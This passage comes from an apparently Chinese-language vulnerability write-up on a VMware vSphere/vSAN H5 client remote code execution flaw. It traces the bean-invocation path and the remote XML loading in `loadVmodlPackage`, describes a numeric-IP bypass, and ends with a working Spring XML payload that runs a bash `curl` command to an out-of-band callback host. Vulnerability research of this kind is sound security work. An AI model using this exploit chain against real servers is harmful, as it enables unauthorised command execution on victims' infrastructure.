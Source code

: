 `invokeServer` 先获取了 Bean 实例，接着获取该实例的方法列表，比对方法名和方法参数长度后，将用户传入的参数进行了一个简单的反序列化后利用进行了调用。

所以接下来就是在 Spring 工厂创建的 bean 里查找危险方法构建利用链了，在 `vsan-h5-client/plugins/h5-vsan-service/META-INF/spring/base/*.xml` 配置文件中找到 bean 的定义，所有 scope 都是缺省的 `singleton` 而且没有配置 `lazy-init`，也就是说这些 bean 都会在 spring 项目启动时单例加载。

漏洞作者所使用的 Bean 是 `vmodlContext`，对应 jar 为 `/etc/vmware/vsphere-ui/vc-packages/vsphere-client-serenity/com.vmware.vrops.install-6.x.x.xx000/plugins/vropsplugin-service.jar`，类是 `com.vmware.vim.vmomi.core.types.impl.VmodContextImpl`，其中的 `loadVmodlPackage` 方法代码如下：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205071709994.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205071709994.png-water_print")

其中会通过 `NonValidatingClassPathXmlApplicationContext` 加载 `contextPath`，而该类继承自：`ClassPathXmlApplicationContext`：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205071711954.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205071711954.png-water_print")

因此可以构造远程加载解析 xml 中的 SpEL 表达式进而执行命令。

需要注意的是，在 `SpringContextLoader` 的 `getContextFileNameForPackage` 会将路径中的 `.` 替换为 `/`，所以无法指定一个正常的 IPv4 地址，但是可以利用数字型 IP 绕过：

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205071838732.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205071838732.png-water_print")

XML 文件内容及攻击效果如下：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>``` | ```xml<br><?xml version="1.0" encoding="UTF-8"?><br><beans xmlns="http://www.springframework.org/schema/beans"<br>       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"<br>       xmlns:context="http://www.springframework.org/schema/context"<br>       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd http://www.springframework.org/schema/context https://www.springframework.org/schema/context/spring-context.xsd"><br><br>    <bean id="pb" class="java.lang.ProcessBuilder"><br>        <constructor-arg><br>            <list><br>                <value>/bin/bash</value><br>                <value>-c</value><br>                <value>curl http://dj0esgxds3fv9m4a0a6dzorr0i69uy.oastify.com</value><br>            </list><br>        </constructor-arg><br>        <property name="whatever" value="#{pb.start()}" /><br>    </bean><br></beans><br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205071839644.png-water_print](assets/1699407775-3366e042fb9a2ea5790c939363b6484d.svg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205071839644.png-water_print")
